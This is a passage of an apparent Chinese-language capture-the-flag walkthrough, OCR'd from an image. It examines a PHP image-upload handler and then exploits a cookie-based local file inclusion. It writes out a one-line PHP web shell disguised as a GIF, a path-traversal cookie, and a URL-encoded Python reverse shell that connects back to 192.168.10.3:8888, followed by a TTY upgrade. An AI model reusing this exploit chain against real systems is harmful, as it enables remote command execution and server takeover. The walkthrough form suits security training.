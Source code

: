 ```php
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png");

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<img src=\"".$uploadfile."\"><br />";
		} else {
			die('Error 4');
		}
	}
}
?>
```

可以看到这里上传功能中对文件后缀名、文件类型、文件名中不能包含/等都进行了限制，需要我们进行多种绕过，经过尝试发现无法进行绕过。

使用文件包含的话，这里的代码 `include($_GET['page'].".php");` 最后添加了.php 也无法进行绕过。再次看 index 中的代码，最上面还有一段 `include("lang/".$_COOKIE['lang']);` ，这个包含没有加最后的.php，我们可以进行利用，在 cookie 中设置目录穿越的文件名。

```
<?php system($_GET['cmd']);?>   上传名为shell.gif的后门代码

GET /?page=login&cmd=python%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.10.3%22,8888));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)'

Cookie: PHPSESSID=t6p7tsqu69clp6agbm5mcq0p74;lang=../upload/f3035846cc279a1aff73b7c2c25367b9.gif
```

在 kali 上进行监听，我们得到了反弹的 shell，先升级下 tty：python -c 'import pty; pty.spawn("/bin/bash")'

